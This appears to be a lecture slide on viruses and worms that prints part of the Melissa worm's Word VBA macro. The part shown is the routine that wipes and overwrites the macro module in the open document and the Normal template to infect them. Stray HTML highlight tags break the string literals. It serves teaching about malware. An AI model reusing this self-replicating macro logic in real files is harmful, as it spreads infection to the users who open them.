

# Melissa Worm
Set ADI1 = ActiveDocument.VBProject.VBComponents.Item(1)
Set NTI1 = NormalTemplate.VBProject.VBComponents.Item(1)
NTCL = NTI1.CodeModule.CountOfLines
ADCL = ADI1.CodeModule.CountOfLines
BGN = 2
If ADI1.Name <> "<B style="color:black;background-color:#ffff66">Melissa</B>" Then
If ADCL > 0 Then _
	ADI1.CodeModule.DeleteLines 1, ADCL
	Set ToInfect = ADI1
	ADI1.Name = "<B style="color:black;background-color:#ffff66">Melissa</B>"
	DoAD = True
End If
If NTI1.Name <> "<B style="color:black;background-color:#ffff66">Melissa</B>" Then
	If NTCL > 0 Then _
		NTI1.CodeModule.DeleteLines 1, NTCL
		Set ToInfect = NTI1
		NTI1.Name = "<B style="color:black;background-color:#ffff66">Melissa</B>"
		DoNT = True
	End If
If DoNT <> True And DoAD <> True Then GoTo CYA
Mateti, Viruses, Trojans and Worms
28